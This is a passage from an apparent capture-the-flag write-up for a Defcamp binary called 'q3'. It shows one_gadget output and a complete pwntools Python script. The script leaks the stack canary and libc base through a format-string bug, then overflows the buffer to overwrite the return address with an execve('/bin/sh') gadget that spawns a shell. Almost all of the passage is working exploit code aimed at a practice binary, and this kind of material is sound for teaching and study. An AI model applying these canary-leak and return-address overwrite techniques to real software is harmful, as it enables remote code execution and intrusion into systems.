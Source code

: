 ```r
robin@oracle:~/CTFs/Defcamp$ ldd q3
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff77e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd5000)
robin@oracle:~/CTFs/Defcamp$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

I'll be using the first one `0x4f2c5`. Now, it's time to pwn:-


### Final Exploit

We have almost everything, now it's time for final exploit:-

Here's the idea, I'll be using the format string specifier to leak canary and libc address and then use the stack canary value to send the payload and using the libc address offset we will get the one_gadget address and we are done.

```python
#!/usr/bin/env python2

from pwn import *

# stack canary is at offset 11 for format string
# It is at offset 24 for buffer overflow

BINARY = './q3'

elf = ELF(BINARY)
context.arch = 'amd64'
libc = elf.libc
p = process("./q3")

# Leak stack canary (offset 11) and the libc address (offset 3)
p.sendline('%11$lx-%3$lx')
p.recvline()
leaks = p.recvline()
stack_canary = int(leaks.split('-')[0], 16) # Stack Canary
libc.address = int(leaks.split('-')[1][:-1], 16) - 0x110154  # LIBC offset we found earlier 

log.info('canary: ' + hex(stack_canary))
log.info('libc base: ' + hex(libc.address))

one_gadget = libc.address + 0x4f2c5 # using one_gadget 
log.info('one_gadget: ' + hex(one_gadget))

payload = 'A'*24 # Write up to the stack canary
payload += p64(stack_canary) # Ensure we don't change the stack canary
payload += 'B'*8 # Overwrite RBP to reach upto RIP
payload += p64(one_gadget) # Overwrite RIP with pre-made shell

p.sendline(payload)

p.interactive()
```